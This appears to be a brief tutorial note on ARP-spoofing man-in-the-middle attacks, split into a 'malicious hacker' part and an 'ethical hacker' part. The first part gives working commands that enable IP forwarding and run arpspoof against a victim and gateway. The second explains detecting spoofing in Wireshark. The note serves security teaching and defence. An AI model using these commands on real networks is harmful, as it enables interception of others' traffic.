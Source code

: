 Man in the Middle attack -> MITM

---
MALICIOUS HACKER
- First, we need to configure the intercept system into the forwarding mode by appending the value 1 into the ip_forward file
````
echo 1 > /proc/sys/net/ipv4/ip_forward
````

````
arpspoof -i eth0 -t ip_addr_victim ip_addr_gateway
````

Now open a second window, AND DO THE OPOSITE

````
arpspoof -i eth0 -t ip_addr_gateway ip_addr_victim
````
---

ETHICAL HACKER

- Open Wireshark
- Click on edit > preferences > columns  > click the add button > rename it as source MAC address > put the field type Hw src addr (resolved)
- Deselect the time column and the legth column
- Create a new column named Destintation MAC address
- Click on apply button
- You will have to make sure they are selected

To only check ARP you must change the filter to `arp.duplicate-address-frame` and apply it

---

